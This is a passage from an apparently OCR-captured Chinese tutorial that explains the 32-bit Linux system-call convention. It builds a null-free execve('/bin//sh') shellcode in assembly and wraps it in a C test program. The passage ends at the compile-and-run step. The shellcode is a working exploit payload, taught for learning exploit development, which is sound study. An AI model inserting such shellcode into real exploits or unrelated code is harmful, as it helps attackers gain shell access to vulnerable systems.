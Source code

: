 首先我们需要了解一下在32位linux平台上的系统调用约定syscall。

```shell
 Syscall调用约定：
 1. 系统调用号syscall number存放在eax中（execve是11，%eax=0xb）
 2. 第1个参数保存在ebx中（%ebx=filename）
 3. 第2个参数保存在ecx中 （%ecx=argv）
 4. 第3个参数保存在edx中（%edx=envp=0）
 5. 第4、5、6个参数分别保存在寄存器esi、edi、ebp中
```

```assembly
xor %eax, %eax    ;eax 清零
pushl %eax        ;eax 入栈
push $0x68732f2f  ;"//sh" 入栈，两个/是为了凑4字节，让shellcode中没有0，对于Linux，/和//是一样的作用
push $0x6e69622f  ;"/bin" 入栈
movl %esp, %ebx   ;将esp值放入ebx
pushl %eax        ;将0压入栈
pushl %ebx        ;将"/bin//sh"的地址指针入栈
movl %esp, %ecx   ;将esp值放入ecx，即ecx=["/bin//sh", 0]，这里用xor %ecx, %ecx也可以
cltd              ;有符号展开，将32位的值展开为64位，eax -> edx:eax，即将edx也设为0，也是为了让shellcode中不含0值，因为0会截断shellcode
movb $0xb, %al    ;传入系统调用数
int $0x80         ;进入系统调用
```

以上是shellcode。

### 测试shellcode

我们需要对已经编写好的shellcode进行测试，看是否可以达到目的。

```c
void shellcode() {
    __asm__(
"xor %eax, %eax\n\t"
"pushl %eax\n\t"
"push $0x68732f2f\n\t"
"push $0x6e69622f\n\t"
"movl %esp, %ebx\n\t"
"pushl %eax\n\t"
"pushl %ebx\n\t"
"movl %esp, %ecx\n\t"
"cltd\n\t"
"movb $0xb, %al\n\t"
"int $0x80\n\t"
);
}
int main() {
    shellcode();
    return 0;
}
```

编译并执行：
